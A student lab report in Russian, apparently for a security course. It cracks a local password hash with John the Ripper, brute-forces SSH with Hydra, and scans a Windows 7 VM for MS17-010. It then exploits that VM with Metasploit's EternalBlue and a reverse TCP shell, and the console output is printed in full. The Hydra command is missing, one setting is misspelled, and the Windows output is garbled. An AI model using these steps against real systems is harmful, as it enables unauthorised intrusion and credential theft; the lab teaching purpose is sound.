

# Отчет

## Задание:

1. Изучить вопрос безопасности паролей. Провести атаку на пароли с помощью John The Ripper+unshadow (оффлайн режим), Hydra (онлайн режим). В качестве инструкции можно использовать видеоматерилы или документ из доп материалов УрокMetasploitкоманды.docx
2. Установить Metasploit Framework(если не был установлен), настроить (как в методичке к уроке)
3. Проверить систему на базе ОС Windows на уязвимости, которые могут привести к атакам WannaCRY и подобного вредоносного ПО. Если система уязвима, при помощи MSF продемонстрируйте возможные векторы атак с использованием данной уязвимости.

## Выполнение:

### 1. Изучить вопрос безопасности паролей.

#### 1.1 Атака на пароли с помощью John The Ripper+unshadow (оффлайн режим):

##### Команды:

    unshadow /etc/passwd /etc/shadow > unshadow.txt
    john unshadow.txt --show

##### Результат:

    kali:kali:1000:1000:,,,:/home/kali:/bin/bash

    1 password hash cracked, 0 left

##### Скриншот консоли:

#### 1.2 Атака на пароли с помощью Hydra (онлайн режим):

##### Команды:
Изучить вопрос безопасности паролей

##### Результат:

    Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

    Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-27 15:14:19
    [WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
    [DATA] max 3 tasks per 1 server, overall 3 tasks, 3 login tries (l:1/p:3), ~1 try per task
    [DATA] attacking ssh://192.168.1.172:22/
    [22][ssh] host: 192.168.1.172   login: msfadmin   password: msfadmin
    1 of 1 target successfully completed, 1 valid password found
    Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-09-27 15:14:21

##### Скриншот консоли:

### 2. Установить и настроить Metasploit Framework.

#### Установка Metasploit Framework не потребовалась.

### 3. Уязвимости ОС Windows.

#### 3.1 Проверить систему на базе ОС Windows на уязвимости, которые могут привести к атакам WannaCRY и подобного вредоносного ПО:

##### Команды:

    nmap --script smb-vuln-ms17-010.nse 192.168.1.164

##### Результат:

    Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-29 04:48 +08
    Nmap scan report for 192.168.1.164
    Host is up (0.00032s latency).
    Not shown: 995 filtered ports
    PORT     STATE SERVICE
    135/tcp  open  msrpc
    139/tcp  open  netbios-ssn
    445/tcp  open  microsoft-ds
    2869/tcp open  icslap
    5357/tcp open  wsdapi
    MAC Address: 00:0C:29:52:EA:B0 (VMware)

    Host script results:
    | smb-vuln-ms17-010: 
    |   VULNERABLE:
    |   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
    |     State: VULNERABLE
    |     IDs:  CVE:CVE-2017-0143
    |     Risk factor: HIGH
    |       A critical remote code execution vulnerability exists in Microsoft SMBv1
    |        servers (ms17-010).
    |           
    |     Disclosure date: 2017-03-14
    |     References:
    |       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
    |       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
    |_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx

    Nmap done: 1 IP address (1 host up) scanned in 5.10 seconds

##### Скриншот консоли:

#### 3.2  При помощи MSF продемонстрируйте возможные векторы атак:

##### 3.2.1 Поиск exploit

##### Команды:

    search CVE-2017-0143

##### Результат:

    Matching Modules
    ================

        #  Name                                           Disclosure Date  Rank     Check  Description
        -  ----                                           ---------------  ----     -----  -----------
        0  auxiliary/admin/smb/ms17_010_command           2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
        1  auxiliary/scanner/smb/smb_ms17_010                              normal   No     MS17-010 SMB RCE Detection
        2  exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
        3  exploit/windows/smb/ms17_010_eternalblue_win8  2017-03-14       average  No     MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
        4  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
        5  exploit/windows/smb/smb_doublepulsar_rce       2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution

    Interact with a module by name or index, for example use 5 or use exploit/windows/smb/smb_doublepulsar_rce

##### 3.2.1 Выбор exploit для использования

##### Команды:

    use exploit/windows/smb/ms17_010_eternalblue

##### 3.2.2 Эксплуатация уязвимости

##### Установка адреса атакуемого узла:

    set RHOSTS 192.168.1.164
    set LHOSTS 192.168.1.139
    set payload windows/x64/shell/reverse_tcp
    exploit 

##### Результат:

    [*] Started reverse TCP handler on 192.168.1.139:4444 
    [*] 192.168.1.164:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
    [+] 192.168.1.164:445     - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
    [*] 192.168.1.164:445     - Scanned 1 of 1 hosts (100% complete)
    [*] 192.168.1.164:445 - Connecting to target for exploitation.
    [+] 192.168.1.164:445 - Connection established for exploitation.
    [+] 192.168.1.164:445 - Target OS selected valid for OS indicated by SMB reply
    [*] 192.168.1.164:445 - CORE raw buffer dump (42 bytes)
    [*] 192.168.1.164:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
    [*] 192.168.1.164:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
    [*] 192.168.1.164:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
    [+] 192.168.1.164:445 - Target arch selected valid for arch indicated by DCE/RPC reply
    [*] 192.168.1.164:445 - Trying exploit with 12 Groom Allocations.
    [*] 192.168.1.164:445 - Sending all but last fragment of exploit packet
    [*] 192.168.1.164:445 - Starting non-paged pool grooming
    [+] 192.168.1.164:445 - Sending SMBv2 buffers
    [+] 192.168.1.164:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
    [*] 192.168.1.164:445 - Sending final SMBv2 buffers.
    [*] 192.168.1.164:445 - Sending last fragment of exploit packet!
    [*] 192.168.1.164:445 - Receiving response from exploit packet
    [+] 192.168.1.164:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
    [*] 192.168.1.164:445 - Sending egg to corrupted connection.
    [*] 192.168.1.164:445 - Triggering free of corrupted buffer.
    [*] Sending stage (336 bytes) to 192.168.1.164
    [*] Command shell session 2 opened (192.168.1.139:4444 -> 192.168.1.164:49707) at 2020-09-29 05:13:39 +0800
    [+] 192.168.1.164:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
    [+] 192.168.1.164:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
    [+] 192.168.1.164:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

    Microsoft Windows [Version 6.1.7601]
    (c) ��௮����� ���������� (Microsoft Corp.), 2009. ��� �� ����饭�.

    C:\Windows\system32>dir \
    dir \
    ��� � ���ன�⢥ C �� ����� ��⪨.
    ��਩��� ����� ⮬�: 8E70-A940

    ����ন��� ����� C:\

    14.07.2009  12:20    <DIR>          PerfLogs
    07.02.2017  21:33    <DIR>          Program Files
    07.02.2017  21:37    <DIR>          Program Files (x86)
    28.09.2020  20:55    <DIR>          Users
    28.09.2020  20:56    <DIR>          Windows
    30.01.2017  17:50    <DIR>          ��⨢����
                0 䠩���              0 ����
                6 �����  51�356�168�192 ���� ᢮�����

    C:\Windows\system32>

##### Скриншот консоли:

